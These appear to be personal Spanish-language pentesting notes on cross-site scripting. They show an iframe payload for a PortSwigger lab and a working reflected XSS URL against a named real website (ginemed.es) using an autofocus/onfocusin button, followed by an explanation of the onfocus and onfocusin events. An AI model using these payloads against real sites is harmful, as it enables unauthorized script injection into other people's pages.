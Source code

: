 ```html
<iframe src="https://0a9f008204f5b89381d4d524009300ef.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Fuzzear por todas las etiquetas, fuzzear por todos los eventos en https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Así es como encontramos el XSS de ginemed:
https://www.ginemed.es/?s=%3Cbutton+autofocus+onfocusin%3Dalert%281%29%3Etest%3C%2Fbutton%3E

```html
<button autofocus onfocusin="alert(1)">test</button>
```

### Explicación:

- **`<button>`**: Define un botón estándar.
- **`autofocus`**: Hace que el botón reciba automáticamente el foco cuando la página se carga.
- **`onfocusin="alert(1)"`**: Muestra una alerta con el número `1` cuando el botón recibe el foco.

Este código hará que, al cargar la página, el botón automáticamente se enfoque y ejecute la alerta `alert(1)` debido al evento `onfocusin`.

### `onfocus`

- **Propósito**: `onfocus` es un evento que se dispara cuando un elemento recibe el foco, ya sea mediante un clic del ratón o la navegación con el teclado.
- **Comportamiento**: Este evento solo se activa en el elemento al que se le ha asignado el foco, y no en sus elementos secundarios. No se propaga a los elementos padres en el DOM.
- **Ejemplo**:

  ```html
  <input type="text" onfocus="alert('Elemento enfocado')">
  ```

  En este caso, se mostrará una alerta cuando el `<input>` reciba el foco.

### `onfocusin`

- **Propósito**: `onfocusin` es un evento que se dispara cuando un elemento o cualquiera de sus elementos descendientes recibe el foco. Es el equivalente al evento `focus` pero con propagación (burbujeo) a través del DOM.
- **Comportamiento**: A diferencia de `onfocus`, `onfocusin` se propaga hacia los elementos padres. Esto significa que el evento puede ser capturado en un contenedor incluso si el foco se mueve a un elemento hijo.
- **Ejemplo**:

  ```html
  <div onfocusin="alert('Elemento o descendiente enfocado')">
    <input type="text">
  </div>
  ```

  En este caso, se mostrará una alerta tanto si el `<input>` recibe el foco como si el `<div>` lo hace, ya que `onfocusin` burbujea a través del DOM.

